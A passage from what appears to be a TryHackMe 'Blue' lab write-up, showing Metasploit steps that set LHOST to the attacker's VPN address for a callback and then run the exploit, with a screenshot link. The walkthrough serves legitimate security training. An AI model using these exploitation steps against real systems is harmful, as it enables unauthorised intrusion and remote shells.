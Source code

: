 We must also configure LHOST with the IP address of our local VPN adapter. You can find your IP by running `ip a`:
```bash
set lhost <YOUR_TUN0_VPN_IP>
```
Once everything is configured, execute the exploit:
```bash
run
```
![Metasploit](https://raw.githubusercontent.com/fartaviao/tryhackme-blue/refs/heads/main/Screenshots/Screenshot-09.png)
